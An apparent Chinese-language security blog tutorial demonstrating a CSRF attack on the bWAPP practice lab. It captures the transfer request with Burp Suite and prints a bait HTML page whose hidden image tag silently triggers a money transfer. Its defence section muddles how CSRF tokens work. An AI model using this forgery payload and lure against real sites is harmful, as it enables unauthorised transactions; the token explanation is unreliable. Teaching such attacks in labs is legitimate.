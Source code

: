 ```yaml
---
author: David
comments: true
date: "2016-09-09T00:00:00Z"
modified: "2016-09-09"
published: true
tags:
- csrf
- cross-site-request-forgery
- NetSecurity
- owasp top10
- OWASP
- Burp-Suite
- cookies
title: CSRF (Cross Site Request Forgery) 跨站請求偽造攻擊 in OWASP
---
```

<div class='post-body entry-content' id='post-body-542148310267796862' itemprop='description articleBody'>
CSRF全名為Cross-Site-Request-Forgery&#65292;跨站請求偽造攻擊&#12290;<br />
簡而言之&#65292;駭客利用你瀏覽網站時尚未過期的session來進行偽造&#65292;發送惡意request&#12290;<br />
<br />
舉個例子&#65292;以網路銀行為例&#65292;你向網銀發送帳號密碼進行驗證&#65292;驗證通過後server會回傳驗證成功&#65292;可以進行所有&#8220;登入後才可以進行的動作&#8221;&#12290;<br />
這時候駭客利用網銀尚未通知閒置過久(session未過期)&#65292;可以利用社交工程或者是其他方式讓user在不知不覺中發送request&#12290;<br />
<br />
如何做到就是我們以下要講的&#12290;<br />
<br />
我們利用原先就有CSRF漏洞的OWASP bWApp來進行練習&#12290;<br />
目的就是讓user讓不知不覺的情況下成功被轉帳&#12290;<br />
<br />
step1.我們必須要知道&#8220;轉帳&#8221;這個步驟在web端如何發送request&#12290;<br />
我們可以用自己電腦來得到這個連結<br />
先將瀏覽器設定代理伺服器(Proxy)<br />
使用Burp-Suite內建proxy工具進行request攔截<br />
<a href="http://4.bp.blogspot.com/-kpfsA12kwv4/V9GNMyTNszI/AAAAAAAAA0c/a8UYfxg1R0o1g9Xm_F8GAYqGq_ww2HMwwCK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.08.39.png" imageanchor="1"><img border="0" height="200" src="https://4.bp.blogspot.com/-kpfsA12kwv4/V9GNMyTNszI/AAAAAAAAA0c/a8UYfxg1R0o1g9Xm_F8GAYqGq_ww2HMwwCK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.08.39.png" width="320" /></a><br />
<br />
可以看到在我們設定proxy之後&#65292;點擊"transfer"網頁會有點卡住<br />
那是因為我們的request被攔截下來了<br />
這時候我們可以看到這一段語法是轉帳的執行語法<br />
<span style="color: red;">GET /bWAPP/csrf_2.php?account=123-45678-90&amp;amount=0&amp;action=transfer HTTP/1.1</span><br />
<span style="color: red;">account=轉出帳號</span><br />
<span style="color: red;">amount=轉出金額</span><br />
p.s.按Forward可以繼續將request送出&#65292;甚至可以修改再送出&#12290;<br />
<br />
step2.撰寫釣魚網頁<br />
為了簡化過程&#65292;我們簡化網頁內容&#65292;實際進行攻擊的網頁通常不會這麼簡單&#12290;<br />
<a href="http://2.bp.blogspot.com/-2ICSH4fgLyE/V9GO1q0ouDI/AAAAAAAAA0k/iLMH0uw1ZWcEFORzbj4yI3Cq95gB26ZNwCK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.15.49.png" imageanchor="1"><img border="0" height="200" src="https://2.bp.blogspot.com/-2ICSH4fgLyE/V9GO1q0ouDI/AAAAAAAAA0k/iLMH0uw1ZWcEFORzbj4yI3Cq95gB26ZNwCK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.15.49.png" width="320" /></a><br />
<br />
<br />
##################################<br />
&lt;html&gt;<br />
&lt;head&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;meta charset="utf-8"&gt;<br />
&lt;/head&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;body&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;font&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>泰勒絲愛你哦 &lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>這是泰勒斯的電話跟照片 &lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>0931097313 &lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>點擊照片到我的blog看更多照片哦&lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;/font&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;img src="http://172.20.10.2/bWAPP/csrf_2.php?account=123-45678-90&amp;amount=200&amp;action=transfer=a.jpg"&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;a href="http://www.google.com.tw" target=""&gt; &nbsp;&lt;img src="http://www.daliulian.org/imgs/image/12/1251496.jpg"&gt;<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;/a&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;/body&gt;<br />
&lt;/html&gt;<br />
#################################<br />
<br />
<br />
step3. 尋找目標下手<br />
撰寫完成只要找尋目標&#65292;使user成功點擊網站&#65292;即可完成轉帳&#12290;<br />
user不需要點擊任何圖片或者是網址&#65292;只需要看到這個頁面就可以進行CSRF攻擊了&#12290;<br />
<a href="http://3.bp.blogspot.com/-os2U7Tlh4SU/V9GP7asOWoI/AAAAAAAAA0s/lMGIwe2SO7c9vLsXIuTQ2PLeFKyQn_ivgCK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.20.39.png" imageanchor="1"><img border="0" height="200" src="https://3.bp.blogspot.com/-os2U7Tlh4SU/V9GP7asOWoI/AAAAAAAAA0s/lMGIwe2SO7c9vLsXIuTQ2PLeFKyQn_ivgCK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.20.39.png" width="320" /></a><br />
<br />
step4.我們回到剛剛的bWApp帳戶頁面&#65292;重新整理後會發現已經如程式碼所寫的轉出200 EUR了&#65292;然後這段時間user沒有對這個網頁進行任何動作&#12290;<br />
<a href="http://3.bp.blogspot.com/-GEu9bf75qnE/V9GQcIZDlHI/AAAAAAAAA00/rqiRgfRHIgQztFwSsxfQO9M_CvYeIyTUACK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.22.52.png" imageanchor="1"><img border="0" height="200" src="https://3.bp.blogspot.com/-GEu9bf75qnE/V9GQcIZDlHI/AAAAAAAAA00/rqiRgfRHIgQztFwSsxfQO9M_CvYeIyTUACK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.22.52.png" width="320" /></a><br />
<br />
總結&#65306;<br />
這是因為user的request已經被我們依樣畫葫蘆偽造了一份&#65292;並加以修改回傳給銀行server&#65292;然而銀行也未查覺到有任何異常&#65292;在銀行看來就是user發送的一般請求而已&#12290;<br />
<br />
防禦&#65306;<br />
現在網路服務皆會設定閒置過期時間(session-time-out)&#65292;閒置過久將會被自動登出&#65292;減少被偽造的機會&#12290;<br />
而有些較大的web server&#65292;例如facebook&#12289;google...etc會設有token&#65292;所謂token就是利用演算法算出一組unique key&#65292;再經由md5加密送出&#65292;user做任何動作都需要token驗證&#65292;使駭客無從偽造&#65292;因為他沒有使用你當前的瀏覽器就無法得知你目前的token是什麼&#12290;<br />
當然你會說&#65292;md5加密還是可以破解&#65292;沒錯&#65281;所以重點在於演算法的精密度&#65292;越精密的演算法&#65292;駭客越無從猜測&#65292;也就無從破解&#12290;<br />
目前ASP.Net 的mvc上的CSRF防禦已經非常普遍化了&#65292;可以利用簡單的程式碼計算token&#65292;加以防禦簡單的CSFR攻擊&#12290;<br />
<br />
經由以上簡單的CSRF滲透測試&#65292;雖然現今大部分網頁服務都有防禦CSRF&#65292;但是我們必須知道如果不使用的話&#65292;盡可能登出網頁服務&#65292;就可以避免造成不必要的風險&#12290;<br />
<br />
<div style="text-align: right;">
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;2016-09-09 , David in Taipei.</div>